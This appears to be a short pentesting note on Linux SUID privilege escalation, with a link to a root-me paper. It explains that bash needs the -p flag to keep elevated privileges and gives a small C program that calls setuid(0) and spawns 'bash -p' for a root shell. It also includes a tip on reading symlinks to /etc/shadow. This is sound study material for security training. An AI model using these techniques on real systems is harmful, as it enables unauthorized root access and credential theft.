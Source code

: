# SUID Bit

## SUID bit

Good list of things to look out for in SUID programs. Seriously, check it out:

[https://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf](https://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

If you want to get a root shell when exploiting SUID programs, then note that by default, bash and sh drop suid privileges. Use the `-p` flag to avoid dropping privileges (only works for root).

Example C program for exploitation:

```
#include <stdlib.h>
#include <unistd.h>
int main(int arc, int** argv)
{
    setuid(0);
    system("bash -p");
    return 0;
}
```

**Symlink tip**: For some reason (presumably security reasons), you cannot read a symlink to `/etc/shadow` (and perhaps other files?) from the `/tmp` or `/dev/shm` folders, even as root, if that symlink wasn’t created by you. But you can do it from any user’s home directory, for example. This can be important when exploiting suid or sudoers misconfigurations using symlinks, for example.
